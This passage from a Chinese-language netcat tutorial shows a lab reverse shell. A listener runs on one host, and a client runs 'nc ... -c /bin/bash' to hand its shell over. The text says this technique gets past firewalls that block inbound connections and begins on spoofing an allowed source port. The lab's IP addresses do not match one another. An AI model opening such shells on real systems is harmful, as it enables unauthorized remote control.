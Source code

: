 ```bash
[root@server-A ~]# 
```

你会得到一个shell提示符在客户端
反向shell
反向shell是指在客户端打开的shell。反向shell这样命名是因为不同于其他配置，这里服务器使用的是由客户提供的服务。
服务端 A

```bash
[root@server-A ~]# nc -v -lp 8081
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Listening on :::8081
Ncat: Listening on 0.0.0.0:8081
Ncat: Connection from 192.168.1.120.
Ncat: Connection from 192.168.1.120:34414.
ls
anaconda-ks.cfg
file.txt
nc_dir
ip add
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens33: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:b9:7e:94 brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.106/24 brd 192.168.1.255 scope global dynamic ens33
       valid_lft 7170sec preferred_lft 7170sec
    inet6 fe80::b95d:60d:d901:d271/64 scope link 
       valid_lft forever preferred_lft forever
3: ens34: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
    link/ether 00:0c:29:b9:7e:9e brd ff:ff:ff:ff:ff:ff
    inet 192.168.1.120/24 brd 192.168.1.255 scope global ens34
       valid_lft forever preferred_lft forever
    inet6 fe80::2812:38ee:6773:1a7c/64 scope link 
       valid_lft forever preferred_lft forever
```

在客户端，简单地告诉netcat在连接完成后，执行shell。
客户端 B

```bash
[root@client-B ~]# nc -v 192.168.1.130 8081 -c /bin/bash 
Ncat: Version 6.40 ( http://nmap.org/ncat )
Ncat: Connected to 192.168.1.130:8081.
```

现在，什么是反向shell的特别之处呢 
反向shell经常被用来绕过防火墙的限制，如阻止入站连接。
### 5.9 指定源端口
假设你的防火墙过滤除25端口外其它所有端口，你需要使用-p选项指定源端口。
服务器端 A
